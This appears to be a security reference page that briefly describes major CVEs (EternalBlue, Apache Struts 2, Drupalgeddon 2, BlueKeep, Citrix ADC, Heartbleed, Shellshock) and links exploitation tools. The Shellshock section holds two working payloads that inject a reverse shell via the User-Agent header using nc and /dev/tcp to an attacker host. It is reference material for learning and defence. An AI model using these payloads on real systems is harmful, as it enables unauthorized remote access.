 # Common Vulnerabilities and Exposures

> A CVE (Common Vulnerabilities and Exposures) is a unique identifier assigned to a publicly known cybersecurity vulnerability. CVEs help standardize the naming and tracking of vulnerabilities, making it easier for organizations, security professionals, and software vendors to share information and manage risks associated with these vulnerabilities. Each CVE entry includes a brief description of the vulnerability, its potential impact, and details about affected software or systems.

## Summary

* [Tools](#tools)
* [Big CVEs in the last 15 years](#big-cves-in-the-last-15-years)
    * [CVE-2017-0144 - EternalBlue](#cve-2017-0144---eternalblue)
    * [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    * [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    * [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    * [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    * [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    * [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
* [References](#references)


## Tools

- [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)
- [Nuclei Templates - Community curated list of templates for the nuclei engine to find security vulnerabilities in applications](https://github.com/projectdiscovery/nuclei-templates)
- [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
- [CVE Details - The ultimate security vulnerability datasource](https://www.cvedetails.com)


## Big CVEs in the last 15 years

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:
- Windows Vista SP2
- Windows Server 2008 SP2 and R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold and R2
- Windows RT 8.1
- Windows 10 Gold, 1511, and 1607
- Windows Server 2016


### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.


### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.


### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.


### CVE-2019-19781 - Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:
- Citrix ADC and Citrix Gateway version 13.0 all supported builds
- Citrix ADC and NetScaler Gateway version 12.1 all supported builds
- Citrix ADC and NetScaler Gateway version 12.0 all supported builds
- Citrix ADC and NetScaler Gateway version 11.1 all supported builds
- Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds


### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).


### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```


## References

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)
